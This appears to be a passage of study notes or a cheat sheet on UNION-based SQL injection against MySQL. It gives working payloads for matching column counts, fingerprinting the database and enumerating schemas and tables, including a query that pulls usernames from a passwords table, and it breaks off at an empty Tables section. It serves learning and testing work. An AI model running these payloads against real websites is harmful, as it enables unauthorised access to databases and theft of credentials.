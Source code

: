 #### Uneven amount of columns 
```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```
Need to Specify the number of columns you want to see. 
```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```
### Union Injection 
**Find out the number of Columns**
#### Using ORDER BY 
Keep going up numbers until you get an error 
```sql
' order by 1-- 
```
```sql
' order by 2-- 
```
etc....
#### Using UNION 
Injection number of union columns until you get a match
```sql
cn' UNION select 1,2,3-- -
```
**Injection Online**
```sql
cn' UNION select 1,@@version,3,4-- -
```

# Exploitation 
### Database Enumeration 
**Check if you are dealing with MySQL**

|Payload|When to Use|Expected Output|Wrong Output|
|---|---|---|---|
|`SELECT @@version`|When we have full query output|MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'|In MSSQL it returns MSSQL version. Error with other DBMS.|
|`SELECT POW(1,1)`|When we only have numeric output|`1`|Error with other DBMS|
|`SELECT SLEEP(5)`|Blind/No Output|Delays page response for 5 seconds and returns `0`.|Will not delay response with other DBMS|

#### [Information_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) Databases
Contains metadata about the databases and tables present on the server. 

Information needed to do a union injection 
- List of databases
- List of tables within each database
- List of columns within each table
##### SCHEMATA 
```MySQL
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```
Contains Information as to what databases are available on DBMS.
**UNION SQL Injection Payload**
```sql
cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- 
```
**Find Current Database**
```sql
cn' UNION select 1,database(),2,3-- 
```
##### Tables
```sql
```